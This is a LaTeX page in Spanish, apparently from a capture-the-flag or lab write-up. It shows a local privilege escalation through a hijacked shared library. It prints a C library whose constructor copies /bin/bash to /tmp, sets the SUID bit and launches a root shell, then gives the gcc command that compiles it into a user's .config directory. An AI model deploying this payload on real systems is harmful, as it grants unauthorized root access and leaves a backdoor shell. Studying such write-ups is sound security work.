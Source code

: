\documentclass[a4paper]{article} %
\begin{document}
    \clearpage

    Para explotar esta vulnerabilidad, utilizamos el siguiente código en C.

    \begin{lstlisting}[language=c, caption={Ejemplo de código C con función de escalada de privilegios}]
    #include <stdio.h>
    #include <stdlib.h>

    static void privesc() \_\_attribute\_\_((constructor));

    void privesc() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
    \end{lstlisting}

    El código anterior asigna permisos SUID al binario /bin/bash. La función privesc está marcada con el atributo constructor, lo que significa que se ejecutará automáticamente al cargar el programa en el que se encuentra, es decir, antes de llamar a la función main(). El código en la función privesc copia el ejecutable /bin/bash a /tmp/bash, establece el bit de setuid en el nuevo archivo y luego ejecuta /tmp/bash -p, logrando así ejecutar una shell como el usuario \texttt{root}.

    Para crear la libreria compartida, ejecutamos el siguiente código:

    \begin{lstlisting}[language=c, caption={Ejemplo de compilación de una biblioteca compartida en C}]
    gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC /tmp/libcounter.c
    \end{lstlisting}

    Parámetros utilizados:

    \begin{itemize}
        \item \texttt{-shared:} Indica al compilador que genere una biblioteca compartida en lugar de un ejecutable.
        \item \texttt{-o:} Especifica el nombre del archivo de salida (en este caso, /home/rektsu/.config/libcounter.so).
        \item \texttt{/home/rektsu/.config/libcounter.so:} Ruta y nombre del archivo de salida de la biblioteca compartida.
        \item \texttt{-fPIC:} Indica que el código generado debe ser independiente de la posición (Position Independent Code), necesario para bibliotecas compartidas.
        \item \texttt{/tmp/libcounter.c:} Ruta y nombre del archivo fuente en C que se compilará.
    \end{itemize}
\end{document}
